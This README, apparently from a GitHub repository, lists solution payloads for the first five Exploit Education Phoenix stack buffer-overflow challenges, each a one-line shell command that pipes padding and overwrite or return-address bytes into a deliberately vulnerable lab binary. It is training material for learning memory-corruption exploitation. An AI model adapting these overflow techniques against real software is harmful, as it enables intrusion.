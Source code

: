 # ExploitEducation Phoenix

*Binary exploit challenge from **[Phoenix](https://exploit.education/phoenix/)***
## Payloads
*\* Still in progress*
- stack-zero:
```
    $ python -c "print 'A' * 64 + 'hehe'" | ./stack-zero
```
- stack-one:
```
    $ ./stack-one $(python -c "print 'A' * 64 + '\x62\x59\x6c\x49'")
```
- stack-two:
```
    $ env ExploitEducation="$(python -c "print 'A' * 64 + '\x0a\x09\x0a\x0d'")" ./stack-two
```
- stack-three:
```
    $ python -c "print 'A' * 64 + '\x9d\x06\x40\x00\x00\x00\x00\x00'" | ./stack-three
```
- stack-four:
```
    $ python -c "print 'A' * 0x50 + 'B' * 8 + '\x1d\x06\x40'" # 88 bytes of stack frame then RIP
```

